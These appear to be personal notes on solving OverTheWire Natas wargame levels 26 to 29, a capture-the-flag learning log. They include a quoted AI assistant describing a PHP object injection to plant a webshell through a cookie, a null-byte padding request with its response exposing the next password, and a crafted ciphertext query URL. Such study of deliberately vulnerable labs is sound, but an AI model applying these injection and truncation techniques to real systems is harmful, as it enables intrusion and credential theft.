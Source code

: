 
## 26->27
- http://natas26.natas.labs.overthewire.org/
- `natas27:u3RRffXjysjgwFU6b9xa23i6prmUsYne`
- Read through the code, I think this has to do with creating a malicious serializable object and injecting/exploiting via `$_COOKIE['drawing']`

via Cursor
> Yes, this is a classic PHP object injection vulnerability. You can exploit it by crafting a malicious Logger object, serializing and base64-encoding it, and setting it as the drawing cookie. This can lead to arbitrary file writes and potentially remote code execution, depending on the environment.

- Drafted `natas26_payload_fixed.php` with the help of Cursor + Gemini. We build a `$_COOKIE["drawing"]` payload to inject a webshell that returns the flag.


## 27->28
- http://natas27.natas.labs.overthewire.org/
- `natas28:1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj`
- 2025-07-15 Break Day
- 2025-07-16 Break Day
- https://learnhacking.io/overthewire-natas-level-27-walkthrough/
- https://www.youtube.com/watch?v=IHNUkhUe7Rw&ab_channel=HMCyberAcademy
- In a URL, `%00` represents a null byte character, which is the URL-encoded version of the null character. It's often used in security exploits to terminate strings prematurely, potentially bypassing security checks. While it's not a valid character in URLs according to some specifications, it can still be used in certain contexts, especially in APIs or when combined with other characters. 
- https://www.w3schools.com/tags/ref_urlencode.ASP
```
username=natas28%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00X&password=password
--
Welcome natas28!<br>Here is your data:<br>Array
(
    [username] =&gt; natas28
    [password] =&gt; 1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj
)
```


## 28->29
- http://natas28.natas.labs.overthewire.org/
- `natas29:31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns`
- 2025-07-18 Break Day
- 2025-07-19 Break Day
- This one is crazy.
- The solution: http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb%2B76GKJOY6adng39QUMPprGe5X2vrsM8BRZAxT9Bt8cmSBdGBYutGkE7dxkKLuB1QrDuHHBxEg4a0XNNtno9y9GVRSbu6ISPYnZVBfqJ%2FOntzil%2F7SkUAJGd1F1rllrvW803zOcae3OEfZlC7ztYnAg%3D%3D
